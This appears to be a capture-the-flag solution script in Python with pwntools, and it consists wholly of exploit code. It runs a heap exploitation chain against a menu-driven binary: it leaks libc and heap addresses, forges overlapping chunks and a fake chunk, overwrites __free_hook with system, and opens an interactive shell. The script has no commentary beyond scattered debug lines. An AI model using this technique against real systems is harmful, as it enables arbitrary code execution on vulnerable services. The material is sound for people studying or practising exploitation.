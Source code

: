 ```python
add(0xf8,'3')
add(0xf8,'4')
add(0xf8,'5')
#add(0xe0,'3')
#add(0xe0,'4')
#debug()
#add(0x200,'cccc')
#show(1)
dele(0)
dele(1)
dele(2)
add(0xf0,'0')
add(0x88,'1')
add(0x38,'2') #2
add(0xd8+0x20,'6')
#add(0x8,'4')
#debug()
dele(1)
dele(3)
#debug()
add(0x88,'1')
show(2)
libcbase = u64(io.recv(6).ljust(8,'\x00')) - 3951480
success('libcbase : '+hex(libcbase))
#fakechunk = libcbase + libc.symbols['__malloc_hook'] - 0x23
libcrealloc = libcbase + libc.symbols['__libc_realloc']
freehook = libcbase + libc.symbols['__free_hook']
fakechunk = libcbase + 3951445
faketop = freehook - 0xb58
#debug()
add(0x88,'3') #overlap 2


add(0x1e8,'7')

#debug()
add(0x88,'8')
#dele(8)
#debug()
add(0x88,'9')
dele(8)
dele(3)
show(2)
heapbase = u64(io.recv(6).ljust(8,'\x00')) - 1776
fakechunk = heapbase + 25
success('heapbase :' + hex(heapbase))
success('fakechunk : '+hex(fakechunk))
add(0x38,'3')
add(0x38,'8')
add(0x38,'10') #overlap 2
#dele(3)

dele(10)
dele(3)
dele(2)

add(0x38,p64(fakechunk))
add(0x38,'x')
add(0x38,'aaa')
add(0x38,'A'*7+p64(freehook))

bye(p64(libcbase + libc.symbols['system']))
io.interactive()
```